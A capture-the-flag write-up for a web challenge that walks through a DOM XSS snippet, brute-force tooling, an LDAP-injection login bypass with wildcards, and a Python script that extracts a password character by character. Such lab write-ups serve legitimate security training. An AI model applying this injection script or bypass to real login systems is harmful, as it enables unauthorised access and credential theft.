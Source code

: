 ![[Pasted image 20230714155329.png]]
First we check source-code and there's no easy wins there. 

A small snippet of unsanitized inline JavaScript:
```JavaScript
 const queryString = window.location.search;
if (queryString) {
  const urlParams = new URLSearchParams(queryString);
  const message = urlParams.get('message');
  if (message) {
    document.getElementById("message").innerHTML = message;
    document.getElementById("message").style.visibility = "visible";
    }
  }
```
Allows us to do some XSS to alter the message we get upon faulty login, but not anything beneficial.

The text on the frontpage that "You can login using workstation password and username" could be a reference to some hidden usernames somewhere to be bruteforced. It could also be a sign of using LDAP.

We start up gobuster and start enumerating directories, as well as start hydra up to bruteforce against the username "Reese" and we start SQLmap.

But, simply using * and * in the two fields actually get us in. So likely we executed an LDAP injection. 

We now see:
![[Pasted image 20230714161238.png]]
Lets check for further LDAP-injection, first by using asterix. No results. But using a letter before our asterix, we seem to find all the names in the phonebook:
![[Pasted image 20230714161457.png]]
There's nothing really popping out except for Reese. At this point we can pretty safely assume that perhaps the password of Reese's account is our flag. And luckily, we can check using regex.

We type in Reese as username, and then we do ``HTB{*"`` as password. And yes, that logs us in. So all theres really left to do now is to write a script that checks every character:

```python
import requests
import string

# List of characters
characters = string.printable.replace("*", '')
url = "http://206.189.120.31:32331/login"
password = "HTB{"

while True:
	for character in characters:
		print("Guessing " + ''.join(password) + character + "*")
		r = requests.post(url, {"username":"Reese", "password": ''.join(password) + character + "*"})

		if r.headers['Content-Length'] == '2586':
			print("FOUND CHAR!")
			password = password + character
			break

	if password[-1] == '}':
		print("FOUND!!!!:" + password)
		exit()
```
And we got our flag.